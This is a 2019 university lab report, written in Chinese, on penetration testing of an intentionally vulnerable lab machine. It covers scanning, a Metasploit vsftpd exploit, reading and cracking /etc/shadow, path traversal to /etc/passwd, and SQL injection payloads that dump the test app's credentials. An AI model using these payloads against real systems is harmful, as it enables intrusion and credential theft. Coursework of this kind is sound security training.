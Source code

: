 
# <center>《网络攻防实战》实验报告</center>

### **第2次实验：渗透测试**

### 小组成员姓名：金宇航、成浩鹏

### 小组成员学号：181250062、181250020

### 18级软件学院大一班

### 小组成员邮箱：181250062@smail.nju.edu.cn、181250020@smail.nju.edu.cn

### 时间：2019.10.14

---

## 一、 实验目的

本次实验预期要学习到的知识、方法等

## 二、 实验内容

1. 使用netdiscover扫描地址，找到若干个地址

   ![](img/netdiscover.png)

2. 用nmap扫描找到的IP，发现192.168.8.6这个IP下开放的端口最多，可以确定是Linux靶机

   ![](img/nmap.png)

3. 用nc进行全连接端口扫描

   ![](img/ncport.png)

4. 用nmap扫描靶机的服务

   ![](img/nmapserver.png)

   ![](img/nmapserver2.png)

5. nmap扫描靶机的操作系统

   ![](img/os.png)

6. 连接25端口，判断是否存在root的用户帐号

   ![](img/smtp.png)

7. 在metasploit中查找vsftpd的模块，调用并且修改地址为靶机，进行渗透。发现渗透成功并且获得root权限

   ![](img/vsftpd.png)

8. 在7的基础上，用`cat /etc/shadow`获取密码密文后，用John暴力破解，可以得到其他用户的密码

   ![](img/john.png)

9. 访问`http://192.168.8.6/mutillidae/index.php?page=/etc/passwd`地址可以访问靶机上的`/etc/passwd`文件

   ![](img/mutilllidae.png)

10. 在register页面里，先在signature输入框输入`' #`然后提交表单，引发错误，可以看到sql的语句中使用了`INSERT INTO ... VALUES...`语句，那么就可以实现一次插入多条记录。在signature中输入`'), ('admin', 'admin', '') #`可以实现同时插入一条admin的记录，就做到了修改admin的密码，可以以admin的用户身份登录了

   ![](img/register1.png)

   ![](img/register2.png)

11. 在sql注入提取用户数据界面, 输入命令"'or 1=1#"绕过验证,获取用户信息

> Username=admin
> Password=adminpass
> Signature=Monkey!
>
> Username=adrian
> Password=somepassword
> Signature=Zombie Films Rock!
>
> Username=john
> Password=monkey
> Signature=I like the smell of confunk
>
> Username=jeremy
> Password=password
> Signature=d1373 1337 speak
>
> Username=bryce
> Password=password
> Signature=I Love SANS
>
> Username=samurai
> Password=samurai
> Signature=Carving Fools
>
> Username=jim
> Password=password
> Signature=Jim Rome is Burning
>
> Username=bobby
> Password=password
> Signature=Hank is my dad
>
> Username=simba
> Password=password
> Signature=I am a cat
>
> Username=dreveil
> Password=password
> Signature=Preparation H
>
> Username=scotty
> Password=password
> Signature=Scotty Do
>
> Username=cal
> Password=password
> Signature=Go Wildcats
>
> Username=john
> Password=password
> Signature=Do the Duggie!
>
> Username=kevin
> Password=42
> Signature=Doug Adams rocks
>
> Username=dave
> Password=set
> Signature=Bet on S.E.T. FTW
>
> Username=ed
> Password=pentest

11. 在add-to-blog页面，插入语句使用的也是`VALUES`，所以可以利用来，以任意的身份发表文字

    ![](img/addtoblog1.png)

    ![](img/addtoblog2.png)

    ![](img/addtoblog3.png)

## 三、 实验结果

漏洞索引：

OSVDB (73573)

## 四、 实验中遇到的问题及解决方案

1. 用nmap对smb扫描时，出现脚本运行错误

   ![](img/nmapsmb.png)

## 五、 组员分工

给出组员在完成这个实验中的具体分工情况。

## 六、 实验的启示/意见和建议

---

附：本次实验你总共用了多长时间？包括学习相关知识时间、完成实验内容时间、完成实验报告时间。（仅做统计用，时间长短不影响本次实验的成绩。）